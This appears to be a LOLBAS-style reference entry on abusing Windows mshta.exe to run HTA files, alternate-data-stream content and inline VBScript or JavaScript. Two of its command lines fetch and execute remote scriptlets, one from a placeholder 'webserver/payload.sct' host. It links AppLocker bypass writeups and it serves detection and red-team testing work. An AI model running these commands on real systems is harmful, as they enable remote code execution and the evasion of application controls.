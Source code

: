 ## mshta.exe
* Functions: Execute, Read ADS
```

mshta.exe evilfile.hta
Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.

mshta.exe vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
Executes VBScript supplied as a command line argument.

mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();
Executes JavaScript supplied as a command line argument.

mshta.exe "C:\ads\file.txt:file.hta"
Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
```
   
* Resources:   
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md
  * https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  * https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  * https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
   
* Full path:   
  * C:\Windows\System32\mshta.exe
  * C:\Windows\SysWOW64\mshta.exe
   
* Notes: Thanks to Casey Smith - @subtee, Oddvar Moe - @oddvarmoe  
   
